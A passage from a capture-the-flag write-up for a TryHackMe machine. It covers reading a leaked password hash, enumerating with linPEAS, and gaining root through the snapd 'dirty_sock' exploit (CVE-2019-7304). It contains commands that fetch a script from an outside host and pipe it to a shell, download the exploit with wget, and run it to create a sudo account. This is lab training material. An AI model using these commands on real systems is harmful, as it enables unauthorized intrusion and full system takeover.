admin$2y$10$q1BI3CSqToALH2Q1r2weLeRpyU7QbonizeVxJnPIieo/drbRSzVTawww-data@petshop:/var/www/monitorr$ 

```

Output is a bit off, but database admin password hash can be read.

> Another decoy. I couldn't crack it.

Going up one level we find the first flag.

```
www-data@petshop:/var/www$ cat flag1.txt
cat flag1.txt
THM{MjBk***********************gfNl}
```

# Scanning for vulnerabilities from the inside

The great thing about such configuration is that we can pull the additional files from our host as we need them. In my experience the wise thing to do is to run the [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) via `curl`. I've hosted the file via `python3 -m http.server 80` command end executed `linpeas` on the target server by piping it directly to shell.

> Read my [detailed linPEAS analysis]( https://ethicalme.hashnode.dev/linpeas ) with usage examples and useful tips and tricks on how I run my `linpeas`.

```sh
www-data@petshop:/var/www$ curl XX.XX.XX.XXX/linpeas.sh | sh
```

## `linpeas`

Samples of points of interests from `linpeas` findings.

```
$ searchsploit snapd 

------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (1)                  | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (2)                  | linux/local/46362.py
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I need to check version of the `snapd`. 

```
$ searchsploit mysqld  

------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
MySQL 3.23.x - 'mysqld' Local Privilege Escalation                                   | linux/local/22340.txt
MySQLDriverCS 4.0.1 - SQL Injection                                                  | multiple/remote/35892.txt
MySQLDumper 1.21 - 'sql.php' Cross-Site Scripting                                    | php/webapps/28783.txt
MySQLDumper 1.24.4 - 'filemanagement.php?f' Traversal Arbitrary File Access          | php/webapps/37129.txt
MySQLDumper 1.24.4 - 'index.php?page' Cross-Site Scripting                           | php/webapps/37133.txt
MySQLDumper 1.24.4 - 'install.php' Multiple Cross-Site Scripting Vulnerabilities     | php/webapps/37127.txt
MySQLDumper 1.24.4 - 'install.php?language' Traversal Arbitrary File Access          | perl/webapps/37126.txt
MySQLDumper 1.24.4 - 'main.php' Multiple Cross-Site Request Forgery Vulnerabilities  | php/webapps/37131.txt
MySQLDumper 1.24.4 - 'menu.php' PHP Remote Code Execution                            | php/webapps/37134.php
MySQLDumper 1.24.4 - 'restore.php?Filename' Cross-Site Scripting                     | php/webapps/37125.txt
MySQLDumper 1.24.4 - 'sql.php' Multiple Cross-Site Scripting Vulnerabilities         | php/webapps/37128.txt
MySQLDumper 1.24.4 - Multiple Script Direct Request Information Disclosures          | php/webapps/37130.txt
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

```
[+] HTTP sockets
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets
Socket /run/snapd.socket owned by root uses HTTP. Response to /index:
{"type":"sync","status-code":200,"status":"OK","result":["TBD"]}
Socket /run/snapd-snap.socket owned by root uses HTTP. Response to /index:
{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}

```

```
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -  
```

```
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-sr-x 1 root   root        99K Apr 16  2018 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
```

Well, a lot of `snapd` activity in the output. By checking the version of the `snapd` we get it is indeed the vulnerable one.

## Privilege Escalation

> Read more about how the dirty_sock works on the [author page](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)

Download locally the `*.py` script and expose it via the `http.server`.

```
$ searchsploit -m linux/local/46362.py
```

On the target machine:

```
www-data@petshop:/var/www/monitorr$ wget XX.XX.XX.XXX/46362.py
wget XX.XX.XX.XXX/46362.py
--2021-05-05 20:50:32--  http://XX.XX.XX.XXX/46362.py
Connecting to XX.XX.XX.XXX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13831 (14K) [text/plain]
Saving to: '46362.py'

46362.py            100%[===================>]  13.51K  --.-KB/s    in 0.05s   

2021-05-05 20:50:32 (294 KB/s) - '46362.py' saved [13831/13831]

www-data@petshop:/var/www/monitorr$ python3 ./46362.py
python3 ./46362.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/ouqtaxscni;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...


********************
Success! You can now `su` to the following account and use sudo:
   username: dirty_sock
   password: dirty_sock
********************

```

Well, well, well - did we just root the box?

```
www-data@petshop:/var/www/monitorr$ su dirty_sock
su dirty_sock
Password: dirty_sock

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

dirty_sock@petshop:/var/www/monitorr$ id
id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock),27(sudo)

```

Yes we did.

```
dirty_sock@petshop:/$ sudo ls /root
sudo ls /root
root.txt  snap
dirty_sock@petshop:/$ sudo cat /root/root.txt
sudo cat /root/root.txt
THM{YjM***************************NTMx}
```

# Foreword

After getting the sudoer account or by looking at the linPEAS output we can have some insights on how the box was set up. 

* SSH I've tried to get into with brute force - this is `ssh-honeypot` - https://github.com/droberson/ssh-honeypot
* the `/business` directory that asked for the credentials on the `:443` - is empty
* also that `:8000` or `dev` site serve no purpose - I didn't find that ID the site was talking to

# Additonal readings

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Jellyfin Web Github](https://github.com/jellyfin/jellyfin-web)
* [Monitorr Github](https://github.com/Monitorr/Monitorr)
* [John Hammond's walkthrough](https://www.youtube.com/watch?v=g2CnIgjHeX8)
* [MuirlandOracle (author) write-up](https://muirlandoracle.co.uk/2021/04/15/year-of-the-jellyfish-write-up/)
* [File Upload @ Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
* [Authorization Bypass and Remote Code Execution in Monitorr 1.7.6](https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/)
* [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [ssh-honeypot](https://github.com/droberson/ssh-honeypot)
* [Privilege Escalation in Ubuntu Linux (dirty_sock exploit)](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)
